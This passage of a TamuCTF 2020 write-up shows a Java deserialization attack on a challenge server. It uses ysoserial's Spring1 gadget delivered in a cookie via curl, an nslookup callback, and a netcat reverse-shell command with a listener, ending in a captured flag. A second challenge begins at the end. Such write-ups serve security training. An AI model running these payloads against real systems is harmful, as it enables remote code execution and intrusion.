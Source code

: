 ```bash
[...]
Myfaces1            @mbechler
Myfaces2            @mbechler
ROME                @mbechler                   rome:1.0
Spring1             @frohoff                    spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
Spring2             @mbechler                   spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
URLDNS              @gebl
Wicket1             @jacob-baines               wicket-util:6.23.0, slf4j-api:1.6.4
[...]
```

As we cannot enumerate the modules on the server, lets try directly with Spring1.
The syntax for the payload generator is:

```bash
java -jar ysoserial.jar Spring1 "OUT_COMMAND"
```

Lets try to execute a *nslookup* and see if the requests pass:

```bash
curl --cookie "counter=$(ysoserial Spring1 'nslookup outserver.com' | gzip | base64 -w 0)" "http://172.17.0.2:8080"
```

And surprisingly we receive a DNS resolution request on our server! Good, now lets try to open a reverse shell:

```bash
curl --cookie "counter=$(ysoserial Spring1 'nc 172.17.0.1 4444 -e /bin/bash' | gzip | base64 -w 0)" "http://172.17.0.2:8080"
```

With us listening on the over side:

```bash
nc -nlvp 4444
```

Et voilà, we have our reverse shell and can cat for the flag situated at */opt/credits-1.0.0-SNAPSHOT/flag.txt*

🏁 __gigem{da$h_3_1s_A_l1f3seNd}__{:.spoiler}

## filestorage

> Try out my new file sharing site!
> http://172.17.0.2

Navigating to __http://172.17.0.2/index.php__ gives as a form asking for a name

![nameform](/assets/img/TamuCTF_2020/filestorage_1.png)
